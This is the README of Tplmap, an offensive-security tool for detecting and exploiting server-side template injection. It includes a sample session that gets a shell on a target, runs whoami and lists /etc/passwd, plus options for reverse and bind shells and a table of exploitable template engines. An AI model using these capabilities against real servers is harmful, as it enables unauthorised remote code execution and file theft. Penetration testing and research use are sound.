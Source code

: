 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'id' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

    --os-shell or --os-cmd to execute shell commands via the injection
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    --bind-shell PORT to bind a shell on a port and connect to it
    --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| doT                  |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Marko                |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
